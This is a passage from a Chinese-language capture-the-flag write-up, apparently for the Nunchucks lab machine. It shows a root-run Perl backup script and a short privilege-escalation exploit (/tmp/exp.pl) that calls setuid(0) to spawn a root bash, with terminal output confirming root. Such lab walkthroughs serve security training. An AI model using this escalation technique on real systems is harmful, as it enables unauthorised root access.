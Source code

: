 ```perl
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

脚本通过设置setuid以root用户运行，这样可以按照同样方法写提权脚本

```perl
#/tmp/exp.pl
#!/usr/bin/perl                                                                                     
use strict;                                                                                         
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 
system("/usr/bin/bash");
```

```bash
david@nunchucks:/tmp$ chmod +x exp.pl
david@nunchucks:/tmp$ ./exp.pl
root@nunchucks:/tmp# id
uid=0(root) gid=1000(david) groups=1000(david)
```

---

# 参考资料

> [Linux Capabilities 入门教程：基础实战篇](https://fuckcloudnative.io/posts/linux-capabilities-in-practice-1/)
> [GTFOBins](https://gtfobins.github.io/gtfobins)
> [HackTricks](https://book.hacktricks.xyz/)


